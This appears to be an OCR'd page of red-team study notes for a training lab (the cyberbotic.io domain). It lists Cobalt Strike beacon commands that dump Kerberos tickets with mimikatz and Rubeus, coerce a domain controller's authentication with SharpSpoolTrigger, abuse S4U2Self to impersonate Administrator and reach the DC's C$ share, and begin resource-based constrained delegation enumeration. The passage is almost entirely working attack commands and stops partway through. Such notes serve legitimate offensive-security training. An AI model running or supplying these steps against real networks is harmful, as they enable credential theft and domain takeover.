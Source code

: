     beacon> mimikatz !sekurlsa::tickets
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
      
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
    beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io
      
    # Inject the TGT into a sacrificial Process and then try to access the machine share. You will get the error.
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /ticket:<TGT-TICKET>
      
    beacon> steal_token 7656
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe klist
    beacon> ls \\dc-2.dev.cyberbotic.io\c$
      
    # Now Perform the S4U2Self Abuse to get the TGS from the injected TGT in the sacrificial process and use rubeus /ptt to directly pass the ticket to the sacrificial process. (Run it within Sacrificial Process)
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:dc-2$ /impersonateuser:Administrator /altservice:cifs/dc-2.dev.cyberbotic.io /self /nowrap /ptt /ticket:<TGT-TICKET>
    beacon> run klist
    beacon> ls \\dc-2.dev.cyberbotic.io\c$

    RBCD

    # Resource-Based Constrained Delegation (Systems having writable msDS-AllowedToActOnBehalfOfOtherIdentity)
    # RBCD can be configured to both Domain Machines objects and Domain User Objects, So enumerate both.
      
    # CASE-1 : Have Local Admin Access to any Domain Joined Machine.
      
    #1. Identify the Computer Objects which has AllowedToActOnBehalfOfOtherIdentity attribute defined
    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json
      
    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json
      
    #2. OR, Identify the Domain Computer where we have WriteProperty, GenericAll, GenericWrite or WriteDacl and can write this atribute with custom value.
    beacon> powershell-import c:\Tools\PowerSploit\Recon\PowerView.ps1
    beacon> powerpick Get-DomainSid -Domain dev.cyberbotic.io
      